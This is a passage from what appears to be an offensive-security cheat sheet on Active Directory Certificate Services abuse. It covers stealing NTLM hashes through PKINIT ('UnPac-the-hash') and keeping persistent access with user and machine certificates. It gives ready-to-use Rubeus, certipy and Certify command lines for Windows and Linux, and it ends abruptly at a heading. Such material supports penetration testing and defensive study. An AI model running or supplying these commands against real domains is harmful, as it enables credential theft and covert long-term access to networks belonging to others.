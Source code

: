 If they match, it's good.

### NTLM Credential Theft via PKINIT – THEFT5

When a TGT is requested with PKINIT, the **LM:NT hash** is added in the structure `PAC_CREDENTIAL_INFO` for futur use if Kerberos is not supported, and the PAC is ciphered with the krbtgt key. When a TGS is requested from the TGT, the same structure is added, but ciphered with the session key.

The structure can be unciphered if a TGS-REQ U2U is realised. It's called **UnPac-the-hash**.

#### Windows

```powershell
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

#### Linux

```bash
# Authenticate and recover the NT hash
certipy auth -pfx 'user.pfx' -no-save
```

## Account Persistence

### User account persistence - PERSIST1

With a user account control on a domain machine, if a template that allows **Client Authentication** is enabled, it is possible to request a certificate that will be valid for the lifetime specified in the template even if the user changes his password.

#### Windows

```powershell
Certify.exe request /ca:CA.contoso.local\CA /template:"Authentication Template"
```

#### Linux

If the user's password is known:

```bash
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'Authentication Template'
```

### Machine account persistence - PERSIST2

With a machine account control, if a template that allows **Client Authentication** is enabled for the computers, it is possible to request a certificate that will be valid for the lifetime specified in the template even a password modification, a system wipe or whatever (if the machine hostname remains the same).

#### Windows
